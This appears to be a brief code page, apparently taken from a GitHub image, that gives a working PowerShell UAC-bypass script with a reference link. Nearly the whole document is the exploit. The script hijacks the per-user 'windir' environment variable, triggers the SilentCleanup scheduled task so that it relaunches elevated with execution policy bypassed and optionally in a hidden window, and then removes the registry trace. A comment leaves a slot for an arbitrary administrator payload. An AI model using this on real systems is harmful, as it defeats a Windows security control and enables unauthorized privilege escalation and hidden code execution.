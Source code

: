 # PowerShell

```powershell
if((([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")) {
    #Payload goes here
    # It'll run as Administrator
    powershell.exe
} else {
    $registryPath = "HKCU:\Environment"
    $Name = "windir"

    # Use for hidden window
    # $Value = "powershell -ExecutionPolicy bypass -windowstyle hidden -Command `"& `'$PSCommandPath`'`";#"

    # Use for interactive window
    $Value = "powershell -ExecutionPolicy bypass -Command `"& `'$PSCommandPath`'`";#"
    Set-ItemProperty -Path $registryPath -Name $name -Value $Value

    #Depending on the performance of the machine, some sleep time may be required before or after schtasks
    schtasks.exe /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I | Out-Null
    Remove-ItemProperty -Path $registryPath -Name $name
}
```

---
## References

- [Ben Forster: Simple Lateral Movement with SSH and UAC Bypass](https://www.linkedin.com/pulse/simple-lateral-movement-ssh-uac-bypass-ben-forster/)